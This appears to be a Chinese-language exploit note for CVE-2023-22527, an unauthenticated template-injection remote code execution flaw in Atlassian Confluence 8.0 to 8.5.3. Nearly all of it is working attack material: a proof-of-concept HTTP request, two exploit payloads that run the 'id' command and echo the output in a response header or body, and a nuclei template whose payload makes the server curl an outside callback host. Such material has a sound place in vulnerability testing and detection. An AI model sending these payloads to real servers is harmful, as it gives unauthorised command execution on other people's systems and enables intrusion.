

## Atlassian Confluence 远程代码执行漏洞(CVE-2023-22527)

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

## poc
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

label=test\u0027%2b#{3*33}%2b\u0027
```

## exp
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

回显在body exp
```
label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().getWriter.write((new+freemarker.template.utility.Execute()).exec({"id"}))

```


## nuclei
```
id: CVE-2023-22527

info:
  name: Atlassian Confluence - Remote Code Execution
  author: iamnooob,rootxharsh,pdresearch
  severity: critical
  description: |
    A template injection vulnerability on older versions of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance. Customers using an affected version must take immediate action.
    Most recent supported versions of Confluence Data Center and Server are not affected by this vulnerability as it was ultimately mitigated during regular version updates. However, Atlassian recommends that customers take care to install the latest version to protect their instances from non-critical vulnerabilities outlined in Atlassian’s January Security Bulletin.
  reference:
    - https://confluence.atlassian.com/pages/viewpage.action?pageId=1333335615
    - https://jira.atlassian.com/browse/CONFSERVER-93833
    - https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2023-22527
    epss-score: 0.00044
    epss-percentile: 0.08115
    cpe: cpe:2.3:a:atlassian:confluence_data_center:*:*:*:*:*:*:*:*
  metadata:
    max-request: 1
    vendor: atlassian
    product: confluence_data_center
    shodan-query: http.component:"Atlassian Confluence"
  tags: cve,cve2023,confluence,rce,ssti

http:
  - raw:
      - |+
        POST /template/aui/text-inline.vm HTTP/1.1
        Host: {{Hostname}}
        Accept-Encoding: gzip, deflate, br
        Content-Type: application/x-www-form-urlencoded

        label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=(new freemarker.template.utility.Execute()).exec({"curl {{interactsh-url}}"})

    matchers-condition: and
    matchers:
      - type: word
        words:
          - 'Empty{name='

      - type: word
        part: interactsh_protocol
        words:
          - dns
```
## 漏洞来源
- https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html
- https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
- https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22527/README.zh-cn.md
